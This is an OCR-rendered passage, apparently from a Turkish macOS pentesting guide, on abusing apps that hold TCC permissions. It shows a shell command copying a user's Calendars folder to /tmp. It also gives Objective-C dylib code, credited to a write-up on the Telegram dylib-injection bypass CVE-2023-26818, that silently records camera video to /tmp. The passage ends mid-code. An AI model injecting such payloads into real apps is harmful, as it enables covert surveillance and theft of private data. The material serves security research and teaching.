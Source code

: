 {{#tab name="Shell"}}
`$HOME/Library/Calendars`'ı `/tmp/calendars`'a kopyalayın.
```bash
cp -r "$HOME/Library/Calendars" "/tmp/calendars"
```
{{#endtab}}
{{#endtabs}}

### Kamera

- **Yetki**: `com.apple.security.device.camera`
- **TCC**: `kTCCServiceCamera`

{{#tabs}}
{{#tab name="ObjetiveC - Kaydet"}}
3 saniyelik bir video kaydedin ve **`/tmp/recording.mov`** konumuna kaydedin.
```objectivec
#import <Foundation/Foundation.h>
#import <AVFoundation/AVFoundation.h>

// gcc -framework Foundation -framework AVFoundation -dynamiclib CamTest.m -o CamTest.dylib
// Code from: https://vsociety.medium.com/cve-2023-26818-macos-tcc-bypass-with-telegram-using-dylib-injection-part1-768b34efd8c4

@interface VideoRecorder : NSObject <AVCaptureFileOutputRecordingDelegate>
@property (strong, nonatomic) AVCaptureSession *captureSession;
@property (strong, nonatomic) AVCaptureDeviceInput *videoDeviceInput;
@property (strong, nonatomic) AVCaptureMovieFileOutput *movieFileOutput;
- (void)startRecording;
- (void)stopRecording;
@end
@implementation VideoRecorder
- (instancetype)init {
self = [super init];
if (self) {
[self setupCaptureSession];
}
return self;
}
- (void)setupCaptureSession {
self.captureSession = [[AVCaptureSession alloc] init];
self.captureSession.sessionPreset = AVCaptureSessionPresetHigh;
AVCaptureDevice *videoDevice = [AVCaptureDevice defaultDeviceWithMediaType:AVMediaTypeVideo];
NSError *error;
self.videoDeviceInput = [[AVCaptureDeviceInput alloc] initWithDevice:videoDevice error:&error];
if (error) {
NSLog(@"Error setting up video device input: %@", [error localizedDescription]);
return;
}
if ([self.captureSession canAddInput:self.videoDeviceInput]) {
[self.captureSession addInput:self.videoDeviceInput];
}
self.movieFileOutput = [[AVCaptureMovieFileOutput alloc] init];
if ([self.captureSession canAddOutput:self.movieFileOutput]) {
[self.captureSession addOutput:self.movieFileOutput];
}
}
- (void)startRecording {
[self.captureSession startRunning];
NSString *outputFilePath = @"/tmp/recording.mov";
NSURL *outputFileURL = [NSURL fileURLWithPath:outputFilePath];
[self.movieFileOutput startRecordingToOutputFileURL:outputFileURL recordingDelegate:self];
NSLog(@"Recording started");
}
- (void)stopRecording {
```